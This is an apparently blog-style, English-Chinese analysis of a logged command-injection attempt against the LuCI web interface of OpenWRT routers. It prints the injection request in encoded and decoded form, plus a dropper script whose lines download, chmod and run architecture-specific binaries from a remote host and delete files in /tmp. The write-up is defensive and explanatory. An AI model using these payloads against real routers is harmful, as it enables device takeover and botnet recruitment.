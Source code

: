 ```
[23/Jan/2024:17:26:43 +0000] 404 - GET http xxx.xxx.xxx.xxx "/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(cd%20%2Ftmp%3B%20rm%20-rf%20%2A%3B%20wget%20http%3A%2F%2F104.168.5.4%2Ftenda.sh%3B%20chmod%20777%20tenda.sh%3B.%2Ftenda.sh)" [Client xxx.xxx.xxx.xxx] [Length 552] [Gzip -] "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/xxx.xxx.xxx.xxx Safari/537.36" "-"


```

This time we've got an attack that seems to be targeting the LuCI web interface for OpenWRT routers. The attack attempts to inject a command into the country field of a form that downloads and executes a shell script that is hosted remote server. Let's break it down.  
这一次，我们遇到了一次攻击，似乎是针对OpenWRT路由器的LuCI Web界面。该攻击尝试将命令注入下载并执行托管远程服务器的 shell 脚本的窗体的 country 字段。让我们来分解一下。

The malicious code is in the URL which has been URL encoded. Decoding the URL makes it easier to read.  
恶意代码位于已进行 URL 编码的 URL 中。解码 URL 使其更易于阅读。

```
/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(cd /tmp; rm -rf *; wget http://xxx.xxx.xxx.xxx/tenda.sh; chmod 777 tenda.sh;./tenda.sh)


```

Breaking it down, 分解它，

1.  `/cgi-bin/luci/;stok=/locale`: This is the path to a CGI script in the LuCI interface. LuCI is a web-based interface for OpenWRT routers and similar embedded devices.  
    `/cgi-bin/luci/;stok=/locale` ：这是 LuCI 界面中 CGI 脚本的路径。LuCI是一个基于Web的界面，用于OpenWRT路由器和类似的嵌入式设备。
    
2.  `?form=country&operation=write&country=`: These are parameters passed to the CGI script.  
    `?form=country&operation=write&country=` ：这些是传递给 CGI 脚本的参数。
    
3.  `$(cd /tmp; rm -rf *; wget http://xxx.xxx.xxx.xxx/tenda.sh; chmod 777 tenda.sh;./tenda.sh)`: This is a bash substitution command intended to be executed and the output is substituted into the URL. The command is trying to cd into the `/tmp` folder, delete all files, download a shell script from a remote server, and execute it.  
    `$(cd /tmp; rm -rf *; wget http://xxx.xxx.xxx.xxx/tenda.sh; chmod 777 tenda.sh;./tenda.sh)` ：这是一个要执行的 bash 替换命令，输出被替换到 URL 中。该命令尝试 cd 进入 `/tmp` 文件夹，删除所有文件，从远程服务器下载 shell 脚本，然后执行它。
    

> Please do not try what I am about to do yourself. At this point in my investigation, I have no idea what the script contains or what it does. I'm taking a calculated risk and have taken measures to keep myself safe. If you're not sure what you're doing, attempting to do the same could cause you to end up with a compromised machine.  
> 请不要尝试我自己要做的事情。在我的调查中，我不知道脚本包含什么或它做了什么。我正在承担经过计算的风险，并已采取措施确保自己的安全。如果您不确定自己在做什么，尝试做同样的事情可能会导致您最终遇到一台受损的机器。

Downloading the script to investigate further, I discovered that the attacker aimed to download and execute an additional binary.  
在下载脚本进行进一步调查时，我发现攻击者的目标是下载并执行额外的二进制文件。

```
cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O lol http://xxx.xxx.xxx.xxx/mips; chmod +x lol; ./lol tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O lmao http://xxx.xxx.xxx.xxx/mpsl; chmod +x lmao; ./lmao tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O ██████ http://xxx.xxx.xxx.xxx/x86_64; chmod +x ██████; ./██████ tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O ███ http://xxx.xxx.xxx.xxx/arm; chmod +x ███; ./███ tplink

cd /tmp || cd /var/run || cd /mnt || cd /root || cd /; wget -O █████ http://xxx.xxx.xxx.xxx/arm5; chmod +x █████; ./█████ tplink
```